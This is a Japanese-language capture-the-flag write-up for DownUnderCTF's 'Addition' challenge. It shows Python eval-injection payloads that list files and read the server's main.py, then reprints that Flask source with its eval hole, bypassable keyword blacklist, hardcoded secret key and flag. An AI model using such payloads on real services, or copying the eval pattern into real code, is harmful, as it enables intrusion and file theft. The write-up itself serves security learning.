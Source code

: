 # Addition:misc:200pts
Joe is aiming to become the next supreme coder by trying to make his code smaller and smaller. His most recent project is a simple calculator which he reckons is super secure because of the "filters" he has in place. However, he thinks that he knows more than everyone around him. Put Joe in his place and grab the flag.  
[https://chal.duc.tf:30302/](https://chal.duc.tf:30302/)  

# Solution
URLにアクセスすると以下のようなサイトだった。  
Joe's Supreme calculator  
[site1.png](site/site1.png)  
不適切な入力をしてみてもエラー内容は表示されないようだ。  
printも表示されない。  
pythonらしいので、以下を実行してみる。  
```python
__import__("subprocess").check_output(["ls","-al","."])
```
[site2.png](site/site2.png)  
整形すると以下になる。  
```text
total 32
drwxr-xr-x 1 root root 4096 Sep 19 10:07 .
drwxr-xr-x 1 root root 4096 Sep 19 10:07 ..
drwxr-xr-x 2 root root 4096 Sep 19 10:07 __pycache__
-rw-r--r-- 1 root root 1371 Sep 9 07:18 main.py
-rw-r--r-- 1 root root 202 Aug 16 16:49 prestart.sh
drwxr-xr-x 2 root root 4096 Sep 13 05:41 templates
-rw-r--r-- 1 root root 37 Aug 16 16:49 uwsgi.ini
```
main.pyをreadする。  
```python
open("main.py","rb").read()
```
[site3.png](site/site3.png)  
整形すると以下になる。  
```python:main.py
from flask_wtf import FlaskForm
from flask import Flask, render_template, request
from wtforms import Form, validators, StringField, SubmitField

app = Flask(__name__)
app.config['SECRET_KEY'] = '7d441f27d441f27567d441f2b6176a'

blacklist = ["import", "os", "sys", ";", "print", "__import__", "SECRET", "KEY", "app", "open", "globals"]
maybe_not_maybe_this = "HYPA HYPA"
maybe_this_maybe_not = "DUCTF{3v4L_1s_D4ng3r0u5}"

class CalculatorInput(FlaskForm):
	user_input = StringField('Calculation', validators=[validators.DataRequired()]) 
	submit = SubmitField('Calculate for me')

@app.route("/", methods=["GET", "POST"])
def mainpage():	
	form = CalculatorInput()
	out = ""
	if request.method == 'POST':
		user_input = request.form['user_input']
		
		for items in blacklist:
			if items in user_input:
				out = "Nice try....NOT. If you want to break my code you need to try harder"
			else:
				try:
					# Pass the users input in a eval function so that I dont have to write a lot of code and worry about doing the calculation myself
					out = eval(user_input)
				except:
					out = "You caused an error... because my friend told me showing errors to hackers can be problematic I am not going to tell you what you broke"
		
	return render_template("calculator.html", form=form, out=out)

if __name__ == "__main__":
 app.run(host="0.0.0.0", debug=True, port=6969)
```
blacklistとは…  
flagが書かれていた。  

## DUCTF{3v4L_1s_D4ng3r0u5}